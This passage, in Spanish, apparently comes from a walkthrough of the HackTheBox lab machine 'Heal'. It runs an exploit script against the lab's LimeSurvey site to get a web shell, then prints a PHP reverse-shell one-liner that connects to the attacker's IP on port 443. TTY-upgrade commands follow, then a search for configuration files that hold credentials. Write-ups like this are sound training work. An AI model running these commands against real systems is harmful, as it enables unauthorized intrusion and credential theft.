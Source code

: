 ```bash
$ ./console -t http://take-survey.heal.htb
```

Este script nos proporciona una `web shell` la cual usaremos para entablar una reverse Shell 
![](file:///C:/Users/Santiantozac/AppData/Local/Packages/oice_16_974fa576_32c1d314_345e/AC/Temp/msohtmlclip1/01/clip_image010.gif)

```php
php -r '$sock=fsockopen("10.10.16.78",443);shell_exec("sh <&3 >&3 2>&3");'
```

![[Pasted image 20250116230204.png]]

y conseguimos nuestra reverse shell
![[Pasted image 20250116230209.png]]

Si quieres puedes dar un tratamiento para que las flechas, Crtl L funcione.

```bash 
script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

# Ajusta a la medida de tu pantalla 
export TERM=xterm;export SHELL=bash;stty rows 41 columns 192
```


Empezaremos la búsqueda de información privilegiada ya que como www-data no tenemos muchos privilegios 
Tenemos un nuevo usuario que es `ron` el cual encontramos en la carpeta de `home` 
![[Pasted image 20250116230730.png]]

Si vemos el contenido de la carpeta `/var/www` no encontraremos con un único archivo el cual no nos da pistas de algo o alguien

![[Pasted image 20250116230735.png]]

Procederemos a buscar archivos de configuración de las aplicaciones de `RAILS` o `LiveSurvey`.

Después de una búsqueda podemos encontrar la siguiente información:

El archivo `config.php` en la ruta `/var/www/limesurvey/application/config/config.php` de `LimeSurvey` contiene la configuración principal de la aplicación `LimeSurvey`. Este archivo define varios parámetros esenciales para el funcionamiento de la aplicación, como la configuración de la `base de datos`, `ajustes de seguridad`, rutas de recursos y otras opciones específicas de la instalación.

### **Contenido Típico de** **config.php** **en LimeSurvey:**

1. **Configuración de la Base de Datos**:
